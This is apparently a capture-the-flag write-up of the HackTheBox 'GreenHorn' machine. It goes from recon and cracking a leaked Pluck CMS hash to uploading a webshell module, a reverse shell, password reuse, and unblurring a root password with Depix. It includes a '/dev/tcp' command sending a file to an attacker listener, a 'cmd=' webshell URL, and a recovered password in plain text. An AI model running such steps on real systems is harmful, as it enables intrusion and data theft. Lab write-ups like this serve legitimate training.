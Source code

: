 ```yaml
---
layout: post
title: "GreenHorn"
date: 2024-12-28
categories: hackthebox
---
```



starting with nmap 
`
```
sudo  nmap -sC -sV -p- -oN greenHorn -T4 10.10.11.25
```
 ![[Pasted image 20240722002947.png]]

so we got 2 websites , one hosted on the port 80 and the other on the port 3000
![[Pasted image 20240722003219.png]]


`
on the port 3000 , we got gitea , with a public repos contains the source code of ==pluck cms==
on the other port we found the ==pluck cms==

![[Pasted image 20240722003527.png]]

from the fisrt look , I assume that this websites is the same one as the one in the ==gitea repo ==

so let's take look at the source code , quick review of the code 

this file got my attention http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/login.php 

```
else {

require_once 'data/settings/pass.php';

  

//Check if we're already logged in. First, get the token.

require_once 'data/settings/token.php';
```

let's check the ==data/settings/pass.php== 
```
<?php

$ww = 'd5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163';

?>
```
this files returns a hash to the  ==login.php== file 

then the cms generate a hash based on the user input and stored it in  ==$pass==
```
  

//If password has been sent, and the bogus input is empty, MD5-encrypt password.

if (isset($_POST['submit']) && empty($_POST['bogus'])) {

$pass = hash('sha512', $cont1);
```
after that he compares the ==\$ww (hash returned from pass.php)== with the ==\$pass==
to confirm that the password is correct
```
  

//If password is correct, save session-cookie.

if (($pass == $ww) && (!isset($login_error))) {

$_SESSION[$token] = 'pluck_loggedin';
```

if we crack the hash on the pass.==php== we will get access to the ==cms==  , since the  hash is ==SHA512== , I will try to crack it using 
https://crackstation.net/

![[Pasted image 20240722011750.png]]
![[Pasted image 20240722012056.png]]

the CMS is on version ==4.7.18== , I quick google search lead me to https://www.exploit-db.com/exploits/51592

after reading the script .
the scenario is the following :
```
user with admin privilege can upload a module (module is just zip with php files) using http://target/pluck/admin.php?action=installmodule
, then we can run those files , since we control those files we can use them to get rce .
```

first I will create a zip with two files ==poc.php,rce.php== 
![[Pasted image 20240722012944.png]]
```
zip rce.zip poc.php rce.php
```
![[Pasted image 20240722013106.png]]

![[Pasted image 20240722013302.png]]

http://greenhorn.htb/data/modules/rce/poc.php
![[Pasted image 20240722013344.png]]

http://greenhorn.htb/data/modules/rce/rce.php?cmd=id
![[Pasted image 20240722013526.png]]

let's get rev shell now
![[Pasted image 20240722014725.png]]

![[Pasted image 20240722014758.png]]

we have 3 users on this machines
```
cat  /etc/passwd | grep sh$
```
![[Pasted image 20240722014835.png]]

I tried to reuse the password of the website , against users and I am ==junior== now!!
```
su junior
```

there's a pdf on ==junior's home== 
![[Pasted image 20240722015126.png]]

let's transfer it to our machine  to check it 
```
on the target :
		cat 'Using OpenVAS.pdf' > /dev/tcp/10.10.14.234/1337
on the attacker machine :
		nc -nvlp 1337 > openvas.pdf
```
![[Pasted image 20240722015319.png]]

there's a hidden password in this pdf , we need to unblur that shit
![[Pasted image 20240722015603.png]]

at this point I was stuck , so I ask for hints from the HTB discord server 
we need tools like https://github.com/spipm/Depix to un-blur the password

but first we need to convert the pdf to png (wasn't lucky with taking screenshots),
using websites like https://pdfcandy.com will be enough 

after generating the image I use  ==Depix tool== to generate un-blurred  image
```
python3 depix.py -p  ../OpenVas.png  -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o root.png
```

and I got this 
![[root.png]]

```
sidefromsidetheothersidesidefromsidetheotherside
```
![[Pasted image 20240722020616.png]]

